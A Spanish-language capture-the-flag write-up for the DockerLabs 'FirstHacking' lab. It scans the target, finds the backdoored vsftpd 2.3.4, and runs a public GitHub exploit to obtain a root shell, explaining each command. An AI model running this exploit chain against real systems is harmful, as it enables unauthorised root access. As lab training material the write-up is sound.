 ## WRITEUP DE LA MÁQUINA FIRSTHACKING DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

```shell
└─$ nmap -sC -sV --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado el -p- y el -n ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es mas eficaz y rapido ejecutar un comando mas corto.

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-17 11:12 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.35 seconds
```
Vemos que el puerto 21 del servicio ftp está abierto, en este caso nos vamos a fijar en la versión de dicho servicio (vsftpd 2.3.4). Para explotar esta versión nos guiaremos con un repositorio de github muy bien explicado del usuario " Hellsender01", aqui la url: https://github.com/Hellsender01/vsftpd_2.3.4_Exploit . Aquí encontraremos la explicación de dicha versión del servicio ftp y la vulnerabilidad de este, asi como los requisitos para poder ejecutar el exploit de python y el propio exploit. 

Ejecutarlo es tan sencillo como tener instalada la biblioteca "pwntools" que proporciona herramientas para el desarrollo de exploits y la explotación de vulnerabilidades, para ello ejecutamos el comando:
```shell
sudo python3 -m pip install pwntools
```
"sudo" Permite ejecutar el comando con privilegios de superusuario. En sistemas basados en Unix (como Linux), esto es necesario para instalar paquetes en el sistema global.
<br><br>
"python3 -m pip" Ejecuta pip (el gestor de paquetes para Python) usando la versión de Python 3. 
<br><br>
El flag "-m" permite ejecutar un módulo como un script.
<br><br>
"install" Indica que pip debe instalar el paquete.
<br><br>
"pwntools" Es el nombre del paquete que quieres instalar.
<br>
Ahora con los requerimientos listos, toca descargar el exploit y un par de comandos mas (explicados más adelante)

```shell
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
cd vsftpd_2.3.4_Exploit/
chmod +x exploit.py
```
"git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git" Clona (es decir, crea una copia) de un repositorio de Git en tu máquina local. El repositorio se encuentra en la URL que proporcionas.
<br><br>
"cd vsftpd_2.3.4_Exploit/" Cambia el directorio actual a la carpeta vsftpd_2.3.4_Exploit/, que es el directorio creado por el comando git clone.
<br><br>
"chmod +x exploit.py" El comando chmod (change mode) modifica los permisos del fichero o directorio que indiques, si añades un "+x" despues del chmod conseguiras dar permisos de ejecucion tanto para el propietario, grupo y otros.
<br><br>
Ahora solo falta ejecutarlo para conseguir ser root, para ello escribimos:
```shell
sudo python3 exploit.py 172.17.0.2 
```
"sudo" permite ejecutar comandos con privilegios de superusuario.
<br>
"python3" ejecuta python y en concreto la version python3.
<br>
"exploit.py" indica el archivo python (.py) que se va a ejecutar.
<br>
"171.17.0.2" es la ip de la maquina víctima.

```shell
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
```
Somos root! muchas gracias por seguir este writeup!
